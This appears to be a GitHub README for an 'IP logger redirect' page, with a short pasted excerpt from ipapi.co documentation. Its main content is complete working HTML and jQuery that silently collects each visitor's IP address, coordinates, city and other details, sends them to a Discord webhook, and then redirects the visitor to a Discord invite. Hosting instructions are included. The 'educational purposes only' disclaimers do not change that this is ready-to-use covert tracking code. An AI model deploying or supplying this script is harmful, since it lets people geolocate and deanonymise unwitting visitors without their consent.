 ```yaml
---

# IP Logger Redirect Script

This repository contains a script designed to log IP addresses and other information about users who visit a particular web page, and then redirects them to a Discord server.

## How It Works

1. **HTML Structure**: The HTML page displays a simple "HELLO" message and includes jQuery.
2. **JavaScript Execution**:
   - The script uses `ipapi.co` to get the visitor's IP address and other details.
   - This information is then sent to a Discord webhook.
   - Finally, the user is redirected to a specified Discord server.

## Code Explanation

### HTML Structure

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Redirecting...</title>
    <meta charset="utf-8" />
    <h1><center>Star the repo please</center></h1>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.6.0/jquery.min.js" charset="utf-8"></script>
  </head>
  <body>
    <script type="text/javascript">
      // JavaScript code here
    </script>
  </body>
</html>
```

### JavaScript

```javascript
var WEBURL = "Webhook link here";

$.getJSON("https://ipapi.co/json/", function (data) {  //Visit https://ipapi.co for more commands
   $.post(WEBURL, {
        content:
          "Ip : " +
          data.ip +
          "Latitude : " +
          data.latitude +
          "Longitude : " +
          data.longitude +
          "\nCity : " +
          data.city +
          "\nCountry : " +
          data.country_name +
          "\nTimeZone : " +
          data.timezone +
          "\nCurrency : " +
          data.currency_name +
          "\nLanguages : " +
          data.languages +
          "\nNumber-Code : " +
          data.country_calling_code +
          "\n@here",

        username: "M7's Logger",
        avatar_url: null,
      });
});

window.location.href = "Invite link or other links here";
```

## Ethical Considerations

Please be aware that logging personal information without the user's consent is unethical and potentially illegal. This script collects and sends sensitive information such as IP address, location, and other details to a third party. Use this script responsibly and ensure compliance with privacy laws and regulations.

## Warning

This script is intended for **educational purposes only**. Misuse of this code to collect personal information without consent is prohibited. Always respect user privacy and obtain proper consent before collecting any personal information.

## Documentation for IP Address Location API

[ipapi.co](https://ipapi.co) provides a REST API to find the location of an IP address.

Specifically, you can get the following information for any IP address:
- City
- Region (name & code)
- Country (name & code)
- Continent
- Postal code / zip code
- Latitude
- Longitude
- Timezone
- UTC offset
- European Union (EU) membership
- Country calling code
- Country capital
- Country TLD (top-level domain)
- Currency (name & code)
- Area & population of the country
- Languages spoken
- ASN
- Organization
- Hostname*

* Hostname is an optional add-on, currently in beta. Please contact us to learn more about it or to enable it for your account.

The API can also help you to find the public IP address of a device.

The API can be integrated into your application either on the server side or on the client side. The documentation below uses JSON format as an example. Other supported formats are XML, CSV, YAML, and JSONP.

Both IPv4 & IPv6 type addresses are supported.

Please refer to the right pane for examples in Ruby, Python, PHP, Javascript, Node.js, jQuery, Java, C#, and Go. If your language of choice isn’t listed here, it doesn’t mean that the API can’t handle it, as long as you can send an HTTP web request and consume the response. Please contact us for any support requests.

## Usage

To use this script, host the HTML file on a web server. When users visit the page, their information will be logged and they will be redirected to the specified Discord server.

## Disclaimer

This script is for educational purposes only. The author is not responsible for any misuse of the code. Always respect user privacy and obtain proper consent before collecting any personal information.

---
```


### Example Usage:

1. Clone the repository:

   ```sh
   git clone https://github.com/yourusername/ip-logger-redirect.git
   ```

2. Host the HTML file on your preferred web server.

3. Update the `WEBURL` variable in the JavaScript code with your Discord webhook URL.

4. Access the hosted HTML page. The script will log user information and redirect them.

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

